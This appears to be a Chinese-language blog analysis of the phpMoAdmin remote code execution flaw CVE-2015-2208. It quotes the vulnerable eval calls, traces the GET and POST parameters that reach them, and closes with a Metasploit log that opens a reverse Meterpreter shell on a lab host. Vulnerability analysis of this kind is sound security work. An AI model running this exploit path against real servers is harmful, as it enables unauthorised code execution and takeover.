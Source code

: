 ```yaml
---
layout: post
title: phpMoadmin CVE-2015-2208 远程代码执行漏洞分析
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**phpMoAdmin 是一个用PHP 开发的在线MongoDB 管理工具，可用于创建、删除和修改数据库和索引，提供视图和数据搜索工具，提供数据库启动时间和内存的统计，支持JSON 格式数据的导入导出。**

<img src="http://blog-1252048719.cos.ap-shanghai.myqcloud.com/65ehrtdfgx.png">

>/phpmoadmin/moadmin.php 第555行

    public function listRows($collection) {
        foreach ($this->sort as $key => $val) { //cast vals to int
            $sort[$key] = (int) $val;
    }
    $col = $this->mongo->selectCollection($collection);
    $find = array();
	if (isset($_GET['find']) && $_GET['find']) {
		$_GET['find'] = trim($_GET['find']);
		if (strpos($_GET['find'], 'array') === 0) {
			eval('$find = ' . $_GET['find'] . ';');
		} else if (is_string($_GET['find'])) {
			if ($findArr = json_decode($_GET['find'], true)) {
				$find = $findArr;
			}
		}
	}

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**在这个`listRows`方法中，eval执行GET接收的`find`参数，首先`$find`变量初始化为数组，而且通过strpos判断传入的值是否为数组。看看哪里调用了这个方法。**

>/phpmoadmin/moadmin.php 第836行

	if (isset($_GET['collection']) && $action != 'listCollections' && method_exists(self::$model, $action)) {
        $this->mongo[$action] = self::$model->$action($_GET['collection']);
        $this->mongo['count'] = self::$model->count;
        $this->mongo['colKeys'] = self::$model->colKeys;
    }

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**首先需要设置`collection`，根据`$action`跟踪到第785行，这里就可以通过`action`接收`listRows`参数来调用`listRows`方法。**

	$action = (isset($_GET['action']) ? $_GET['action'] : 'listCollections');

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**整体触发漏洞的逻辑就是首先通过`action`接收`listRows`，调用这个方法后，eval就会执行`$find`传入的值。由于过滤不严，即可执行传入的任意恶意代码。**

<img src="http://blog-1252048719.cos.ap-shanghai.myqcloud.com/r67jtydhrgdfs.png">

>/phpmoadmin/moadmin.php 第693行

	public function saveObject($collection, $obj) {
        eval('$obj=' . $obj . ';'); //cast from string to array
        return $this->mongo->selectCollection($collection)->save($obj);
    }

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**`saveObject`函数中eval执行了形参$obj，找找哪里调用了这个函数。**

>/phpmoadmin/moadmin.php 第786行

	if (isset($_POST['object'])) {
            if (self::$model->saveObject($_GET['collection'], $_POST['object'])) {
                return $this->_dumpFormVals();
            } else {
                $action = 'editObject';
                $_POST['errors']['object'] = 'Error: object could not be saved - check your array syntax.';
            }
    }

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**开头检查POST是否传输了`object`，随后内包含的if进行判断，这个过程即调用了当前类的`saveObject`方法，POST传入`object`参数的值带入eval后就造成了代码执行。**

<img src="http://blog-1252048719.cos.ap-shanghai.myqcloud.com/Screen%20Shot%202016-03-06%20at%2012.24.03%20AM.png">

>Msf也已经更新了此漏洞的Exploit:

	msf > use exploit/multi/http/phpmoadmin_exec
	msf exploit(phpmoadmin_exec) > show options
	
	Module options (exploit/multi/http/phpmoadmin_exec):
	Name       Current Setting  Required  Description
	----       ---------------  --------  -----------
	Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
	RHOST                       yes       The target address
	RPORT      80               yes       The target port
	SSL        false            no        Negotiate SSL/TLS for outgoing connections
	TARGETURI  /                yes       The URI path of the PHPMoAdmin page
	VHOST                       no        HTTP server virtual host
	
	Exploit target:
	
	Id  Name
	--  ----
	0   PHPMoAdmin
	
	msf exploit(phpmoadmin_exec) > set RHOST 172.16.20.136
	RHOST => 172.16.20.136
	msf exploit(phpmoadmin_exec) > set TARGETURI /phpmoadmin
	TARGETURI => /phpmoadmin
	msf exploit(phpmoadmin_exec) > exploit
	
	[*] Started reverse TCP handler on 172.16.20.1:4444
	[*] Executing payload...
	[*] Sending stage (33684 bytes) to 172.16.20.136
	[*] Meterpreter session 1 opened (172.16.20.1:4444 -> 172.16.20.136:33492) at 2015-03-05 22:34:56 +0800
	
	meterpreter > ls
	Listing: /php/www/phpmoadmin
	=================================
	
	Mode              Size    Type  Last modified              Name
	----              ----    ----  -------------              ----
	100644/rw-r--r--  31713   fil   2015-03-05 21:42:58 +0800  LICENSE
	100644/rw-r--r--  5078    fil   2015-03-05 21:42:58 +0800  README.textile
	100644/rw-r--r--  1858    fil   2015-03-05 21:42:58 +0800  change.log
	100644/rw-r--r--  111430  fil   2015-03-05 21:42:58 +0800  moadmin.php